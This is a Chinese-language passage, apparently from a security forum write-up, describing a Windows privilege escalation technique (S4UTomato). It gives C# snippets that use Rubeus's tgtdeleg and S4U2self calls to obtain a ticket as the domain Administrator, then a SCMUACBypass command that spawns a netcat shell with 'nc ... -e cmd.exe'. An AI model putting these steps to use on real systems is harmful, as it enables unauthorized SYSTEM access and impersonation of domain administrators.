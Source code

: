 我们可以在服务账户的上下文中，利用 Rubeus 提供的 `LSA.RequestFakeDelegTicket()` 方法执行 tgtdeleg 技巧，以检索计算机账户的 TGT 并保存在 `blah` 字节数组中，如下所示。

```c#
// ...

Console.WriteLine("[*] Action: Request Fake Delegation TGT (current user)");
byte[] blah = LSA.RequestFakeDelegTicket();

// ...
```

将返回的 TGT 字节数据转换为 KRB\_CRED 对象，并传入 Rubeus 提供的 `S4U.Execute` 方法执行 S4U2self 过程，以代表域管理员用户请求针对当前计算机上 HOST 服务的票据，并将请求到的服务票据将被提交到内存中。

```c#
string targetUser = $"{domain}\\Administrator";
string targetSPN = "";
string altService = $"HOST/{Environment.MachineName}";
string outfile = "";
bool ptt = true;
bool self = true;
string keyString = "";

// ...

KRB_CRED kirbi = new KRB_CRED(blah);

S4U.Execute(kirbi, targetUser, targetSPN, outfile, ptt, domainController, altService, null, null, null, self, false, false, keyString, encType);
```

最终通过 SCMUACBypass 访问 Service Control Manager（SCM）创建系统服务，从而获取 SYSTEM 权限，执行效果如下所示。

```console
# 先通过 Tgtdeleg 检索 TGT
S4UTomato.exe tgtdeleg
# 再执行 SCMUACBypass 获取 SYSTEM 权限
S4UTomato.exe krbscm -c "nc 127.0.0.1 4444 -e cmd.exe"
```

![tgtdeleg](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-593cb3ca003924e7ae628aa489e1f6415fbd113e.gif)